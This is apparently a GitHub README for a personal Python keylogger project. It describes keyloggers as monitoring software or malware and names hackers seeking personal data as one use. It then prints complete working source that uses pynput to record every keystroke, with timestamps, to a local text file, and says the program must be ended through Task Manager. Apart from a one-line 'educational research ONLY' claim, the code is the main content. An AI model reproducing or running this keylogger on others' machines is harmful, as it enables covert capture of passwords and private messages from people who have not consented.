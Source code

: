 ##### [LinkedIn](https://www.linkedin.com/in/allana-gibson/)

## KeyLogger Project

- A keylogger is a type of monitoring software `or malware` that is used to collect every keystroke the user types.
#### Reasons for use:
1. Hackers trying to access **personal data**.
2. IT organizations attempting to troubleshoot **technical problems**.

- I did this for educational research ONLY.

### Here is the source code of my program (in python):

```markdown
from pynput.keyboard import Key, Listener
import logging

logKeystroke = ""

logging.basicConfig(filename=(logKeystroke + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                                   # prints the text with date & time
def on_press(key):
    logging.info(str(key)) #when a key is pressed it will store the info in file

with Listener(on_press=on_press) as listener:
    listener.join()
```
##### The output will extract a `.txt` file on to the folder displaying every keystroke pressed.
##### The user will have to terminate the program in `Task Manager` to end the application.

### Here is a picture of the output file:
![snippen2](https://user-images.githubusercontent.com/53357849/154188508-899104ba-b2a2-4264-bd5e-d8b9ad0b3fdc.png)

